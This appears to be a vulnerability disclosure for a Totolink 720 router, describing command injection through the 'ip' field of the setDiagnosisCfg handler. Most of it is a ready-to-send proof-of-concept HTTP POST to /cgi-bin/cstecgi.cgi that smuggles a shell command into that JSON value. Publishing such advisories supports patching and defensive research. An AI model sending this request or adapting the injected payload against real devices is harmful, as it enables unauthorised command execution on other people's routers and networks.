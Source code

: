 **Exploit Title:**Totolink 720 has a code execution vulnerability  
**Version:**V4.1.5cu.374  
**Date:**2022/08/16  
**Exploit Author:**xiaohu816  
**Vendor Homepage:**https://www.totolink.net/  
**Analysis Report:**  
&emsp;&emspIn the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

&emsp;&emsp![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

&emsp;&emsp![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
&emsp;&emspJust write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  

POC：  
&emsp;&emspPOST /cgi-bin/cstecgi.cgi HTTP/1.1
&emsp;&emspHost: 192.168.0.1
&emsp;&emspContent-Length: 52
&emsp;&emspAccept: application/json, text/javascript, */*; q=0.01
&emsp;&emspX-Requested-With: XMLHttpRequest
&emsp;&emspUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
&emsp;&emspContent-Type: application/x-www-form-urlencoded; charset=UTF-8
&emsp;&emspOrigin: http://192.168.0.1
&emsp;&emspReferer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
&emsp;&emspAccept-Encoding: gzip, deflate
&emsp;&emspAccept-Language: en-US,en;q=0.9
&emsp;&emspCookie: SESSION_ID=2:1591951611:2
&emsp;&emspConnection: close

&emsp;&emsp{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}
